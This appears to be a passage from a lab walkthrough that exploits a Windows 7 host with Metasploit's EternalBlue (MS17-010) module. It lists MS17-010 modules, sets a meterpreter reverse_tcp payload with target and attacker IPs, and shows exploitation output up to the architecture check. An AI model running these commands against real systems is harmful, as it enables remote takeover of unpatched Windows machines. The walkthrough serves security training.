 ```bash
   11    \_ target: Automatic                         .                .        .      .
   12    \_ target: PowerShell                        .                .        .      .
   13    \_ target: Native upload                     .                .        .      .
   14    \_ target: MOF upload                        .                .        .      .
   15    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   16    \_ AKA: ETERNALROMANCE                       .                .        .      .
   17    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   18    \_ AKA: ETERNALBLUE                          .                .        .      .
   19  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   20    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   21    \_ AKA: ETERNALROMANCE                       .                .        .      .
   22    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   23    \_ AKA: ETERNALBLUE                          .                .        .      .
   24  auxiliary/scanner/smb/smb_ms17_010             .                normal   No     MS17-010 SMB RCE Detection
   25    \_ AKA: DOUBLEPULSAR                         .                .        .      .
   26    \_ AKA: ETERNALBLUE                          .                .        .      .
   27  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
   28    \_ target: Execute payload (x64)             .                .        .      .
   29    \_ target: Neutralize implant                .                .        .      .


Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'
```
use 0 option
```bash
msf6 > use 0
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
```
Set RHOSTS machine IP
Set LHOST attacker's IP
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.135.20
rhosts => 10.10.135.20
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhosts 10.10.224.224
[!] Unknown datastore option: lhosts. Did you mean LHOST?
lhosts => 10.10.224.224
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

run
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.10.224.244:4444 
[*] 10.10.135.20:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.135.20:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.135.20:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.135.20:445 - The target is vulnerable.
[*] 10.10.135.20:445 - Connecting to target for exploitation.
[+] 10.10.135.20:445 - Connection established for exploitation.
[+] 10.10.135.20:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.135.20:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.135.20:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.135.20:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.135.20:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.135.20:445 - Target arch selected valid for arch indicated by DCE/RPC reply
```